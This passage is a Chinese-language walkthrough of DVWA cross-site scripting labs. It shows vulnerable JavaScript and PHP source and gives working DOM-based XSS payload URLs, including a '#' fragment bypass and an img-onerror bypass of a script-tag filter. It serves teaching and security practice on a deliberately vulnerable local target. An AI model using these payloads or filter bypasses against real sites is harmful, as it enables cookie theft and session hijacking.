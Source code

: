 查看页面源代码
```script

				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}

					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
```
* indexOf() 方法可返回某个指定的字符串值在字符串中首次出现的位置。
* substring() 方法用于提取字符串中介于两个指定下标之间的字符。
* decodeURI() 函数可对 encodeURI() 函数编码过的 URI 进行解码
* 所以lang被赋值为"default="之后的字串，如果插入js代码，插入的 javascript 代码可以在 decodeURL(lang) 被执行

`http://192.168.31.84:81/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>`
这个uri被用户点击之后会被弹窗，但是在chrome测试了很多次都不行，firefox就可以

## medium模式
相对于easy模式增加了对script的过滤
```
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
```
绕过有两种方式
1. 方式1
url中有一个字符为#，该字符后的数据不会发送到服务器端，从而绕过服务端过滤
`http://192.168.31.84:81/vulnerabilities/xss_d/?default=English#<script>alert(document.cookie)</script>`
2. 方法2
或者就是用img标签或其他标签的特性去执行js代码，比如img标签的onerror事件，构造连接(通过加载一个不存在的图片出错出发javascript onerror事件,继续弹框，证明出来有xss)
```http://192.168.31.84:81/vulnerabilities/xss_d/?default=English%3E/option%3E%3C/select%3E%3Cimg%20src=#%20onerror=alert(/xss/)%3E```

# 反射型xss
## easy模式
> 反射型（非持久）：主要用于将恶意代码附加到URL地址的参数中，常用于窃取客户端cookie信息和钓鱼欺骗。

查看源码，服务器直接把客户端的输入返回回来显示
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```
